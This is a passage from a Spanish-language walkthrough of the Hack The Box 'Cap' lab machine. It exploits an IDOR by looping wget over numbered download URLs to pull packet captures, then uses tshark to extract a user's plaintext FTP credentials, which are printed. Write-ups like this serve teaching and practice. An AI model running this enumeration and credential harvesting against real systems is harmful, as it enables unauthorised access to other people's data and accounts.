 
Si jugamos con el **IDOR** en la url y ponemos el 0 vemos que nos descarga un fichero ya existente **0.pcap** ya que ha nosotros nos ha generado el **1.pcap**.

Tambien podemos hace un **OneLiner** en bash para descargar todos:

```bash
┌──(kali㉿kali)-[~/HTB/Cap]
└─$ mkdir pcaps     

┌──(kali㉿kali)-[~/HTB/Cap]
└─$  for i in {0..500} ; do wget http://10.10.10.245/download/${i} -O pcaps/${i}.pcap 2>/dev/null || break; done; rm pcaps/${i}.pcap

┌──(kali㉿kali)-[~/HTB/Cap]
└─$ cd pcaps 
                                      
┌──(kali㉿kali)-[~/HTB/Cap/pcaps]
└─$ lla   
total 24
drwxr-xr-x 2 kali kali 4096 Jan 13 13:04 .
drwxr-xr-x 3 kali kali 4096 Jan 13 13:04 ..
-rw-r--r-- 1 kali kali 9935 May 15  2021 0.pcap
-rw-r--r-- 1 kali kali  108 Jan 13 12:57 1.pcap

┌──(kali㉿kali)-[~/HTB/Cap/pcaps]
└─$ 

```
Revisamos el fichero **0.pcap** y vemos que tenemos una conexión FTP de **nathan** y sus credenciales.

```bash
┌──(kali㉿kali)-[~/HTB/Cap/pcaps]
└─$ tshark -r 0.pcap -Y "ftp" -Tfields -e tcp.payload 2>/dev/null | xxd -ps -r
220 (vsFTPd 3.0.3)
USER nathan
331 Please specify the password.
PASS Buck3tH4TF0RM3!
230 Login successful.
SYST
215 UNIX Type: L8
PORT 192,168,196,1,212,140
200 PORT command successful. Consider using PASV.
LIST
150 Here comes the directory listing.
226 Directory send OK.
PORT 192,168,196,1,212,141
200 PORT command successful. Consider using PASV.
LIST -al
150 Here comes the directory listing.
226 Directory send OK.
TYPE I
200 Switching to Binary mode.
PORT 192,168,196,1,212,143
200 PORT command successful. Consider using PASV.
RETR notes.txt
550 Failed to open file.
QUIT
221 Goodbye.
```
